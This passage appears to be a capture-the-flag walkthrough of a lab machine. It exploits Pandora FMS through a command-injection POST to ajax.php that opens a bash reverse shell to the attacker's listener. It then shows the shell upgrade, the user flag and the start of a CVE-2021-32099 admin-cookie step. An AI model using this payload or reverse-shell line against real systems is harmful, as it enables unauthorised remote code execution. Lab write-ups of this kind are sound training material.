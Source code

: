 
I’ll send that request to Burp Repeater, and replace the payload with the much
smaller one in the POC link. I’ll have to tweak it a bit to get it to work,
but eventually I’ll end up with this:

    
    
    POST /pandora_console/ajax.php HTTP/1.1
    Host: pandora.panda.htb:9001
    ...[snip]...
    Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
    
    page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1
    

On sending, I get a shell as matt:

    
    
    oxdf@hacky$ nc -nvlp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.136 44100
    bash: cannot set terminal process group (10969): Inappropriate ioctl for device
    bash: no job control in this shell
    matt@pandora:/var/www/pandora/pandora_console$ id
    uid=1000(matt) gid=1000(matt) groups=1000(matt)
    

I’ll upgrade my shell:

    
    
    matt@pandora:/var/www/pandora/pandora_console$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    matt@pandora:/var/www/pandora/pandora_console$ ^Z
    [1]+  Stopped                 nc -nvlp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -nvlp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    matt@pandora:/var/www/pandora/pandora_console$ 
    

And grab `user.txt`:

    
    
    matt@pandora:/home/matt$ cat user.txt
    4379b69e************************
    

### RCE #2: Admin Upload

#### Get Admin Cookie

[This
POC](https://sploitus.com/exploit?id=100B9151-5B50-532E-BF69-74864F32DB02) for
CVE-2021-32099 (the SQL injection used above) shows this payload:
